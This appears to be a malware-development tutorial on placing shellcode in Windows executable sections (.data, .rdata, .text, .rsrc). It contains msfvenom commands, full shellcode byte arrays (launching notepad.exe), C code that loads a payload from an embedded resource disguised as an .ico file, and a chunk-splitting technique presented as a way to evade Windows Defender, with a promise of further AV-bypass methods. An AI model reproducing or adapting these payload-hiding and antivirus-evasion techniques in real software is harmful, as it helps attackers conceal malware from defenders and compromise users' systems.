## Payload Placement

### Table of Contents
1. [Introduction](#introduction)
2. [Creating shellcode with msfvenom](#create-shellcode)
3. [.data section](#data-section)
4. [.rdata section](#rdata-section)
5. [.text section](#text-section)
6. [.rsrc section](#rsrc-section)
7. [Hiding payload by storing alternately in .data and .rdata sections](#hide-payload)

### Introduction {#introduction}

Malware typically stores payloads in 4 main sections:

- **.data**: Usually used to store static variables and global variables. These variables contain data that may change during program execution. Data in this section has read/write permissions.
- **.rdata**: Used to store read-only data (the 'r' in rdata stands for read), so shellcode stored in const variables will be placed in this section.
- **.text**: The location where the machine code of the program is stored, executed when the program runs.
- **.rsrc**: Stores program resources such as images, icons, audio, text, and other resources that the program may use. These resources are usually not executable machine code but data used by the program while running.

Below is an image of the sections viewed through x64dbg:


### Creating shellcode with msfvenom {#create-shellcode}

This section uses shellcode to open notepad.exe: ```msfvenom -p windows/x64/exec CMD=notepad.exe -a x64 -f c ```

If using this method for injection, after shellcode execution completes, the program will exit. We need to add the following parameter:

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```


### .data section

To declare shellcode in the .data section, declare it like a normal variable:
```c
unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Open x64dbg, navigate to the .data section, and you will see the payload stored here:


### .rdata section 

Use the ***const*** keyword to create a const variable, data will be stored in *.rdata*:
```c
const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Check with x64dbg:


### .text section

To store shellcode in this section, add the following code before declaring the variable:
```c
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
The *const* keyword can be present or not without affecting the result.

Looking at x64dbg, the .text section starts at address *0x00007FF79CB41000*:


Searching for the payload address in the section above, we get:


So the data is stored right at the beginning of the section.

### .rsrc section

Resources are a location to store resources as mentioned in the introduction. The shellcode will be stored in raw format under these resources, which will then be loaded into the program. However, shellcode cannot be modified directly on rsrc, so we need to use memory allocation functions like *HeapAlloc* to load the shellcode into current memory and then use it.

**1. Create shellcode with .icon extension**

Convert the shellcode format to raw and save it as an .ico file for use:

```
msfvenom -p windows/x64/exec CMD=notepad.exe -a x64 -f raw > shellcode.ico
```

**2. Create resource icon in Visual Studio**

Right-click on *Resource File => Add => Resource...*



Select *Import* and then get the *shellcode.ico* created in the previous step:



In the *Resource Type* section, enter RCDATA and click OK:



After completion, you can view the Resource file displaying the payload:



In the *resource.h* file, you will see the ID of the shellcode resource added. This ID will be used to load the resource:



**3. Load resource shellcode**

To read the payload, you need to use the following 4 WinAPI functions to load the resource:

- ***FindResourceW***: Search for resource based on ID, returns HRSRC resource.

- ***LoadResource***: Returns resource handle through the HRSRC from above.

- ***LockResource***: Returns the address of the payload in the resource.

- ***SizeofResource***: Returns the size of the resource.

```c
#include <stdio.h>
#include <Windows.h>
#include "resource.h"

#define DEBUG(x, ...) printf(x, ##__VA_ARGS__)

int main() {
HRSRC   hRsrc = NULL;
HGLOBAL   hGlobal = NULL;
PVOID   pPayload = NULL;
SIZE_T    sPayloadSize = NULL;


hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
if (hRsrc == NULL) {
  DEBUG("[!] FindResourceW Failed With Error : %d \n", GetLastError());
  return -1;
}

hGlobal = LoadResource(NULL, hRsrc);
if (hGlobal == NULL) {
  DEBUG("[!] LoadResource Failed With Error : %d \n", GetLastError());
  return -1;
}

pPayload = LockResource(hGlobal);
if (pPayload == NULL) {
  DEBUG("[!] LockResource Failed With Error : %d \n", GetLastError());
  return -1;
}

sPayloadSize = SizeofResource(NULL, hRsrc);
if (sPayloadSize == NULL) {
  DEBUG("[!] SizeofResource Failed With Error : %d \n", GetLastError());
  return -1;
}

printf("[i] Payload address : 0x%p \n", pPayload);
printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}
```

View the result on x64dbg:


The code will be uploaded along with this post.

### Hiding payload by storing alternately in .data and .rdata sections {#hide-payload}

If you keep the original shellcode and store it in .data and .rdata sections, Windows Defender will detect and report it as malware. Therefore, the simplest method is to store alternating 16-byte chunks of shellcode in these 2 sections, then write a function to reconstruct the original shellcode for use. If you don't build the original shellcode and load it into memory, you won't be detected using this method.

```c
# include <stdio.h>
# include <Windows.h>

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
  memcpy(&sc[0], sc_0, 16);
  memcpy(&sc[16 * 1], sc_1, 16);
  memcpy(&sc[16 * 2], sc_2, 16);
  memcpy(&sc[16 * 3], sc_3, 16);
  memcpy(&sc[16 * 4], sc_4, 16);
  memcpy(&sc[16 * 5], sc_5, 16);
  memcpy(&sc[16 * 6], sc_6, 16);
  memcpy(&sc[16 * 7], sc_7, 16);
  memcpy(&sc[16 * 8], sc_8, 16);
  memcpy(&sc[16 * 9], sc_9, 16);
  memcpy(&sc[16 * 10], sc_10, 16);
  memcpy(&sc[16 * 11], sc_11, 16);
  memcpy(&sc[16 * 12], sc_12, 16);
  memcpy(&sc[16 * 13], sc_13, 16);
  memcpy(&sc[16 * 14], sc_14, 16);
  memcpy(&sc[16 * 15], sc_15, 16);
  memcpy(&sc[16 * 16], sc_16, 16);
  memcpy(&sc[16 * 17], sc_17, 16);
}
int main() {
  //if run build_sc(), shellcode will load to memory, AV scan memory will detection it. Need encode payload.
  //build_sc();
}
```
In the next section, I will describe various methods to encode shellcode to bypass AV.
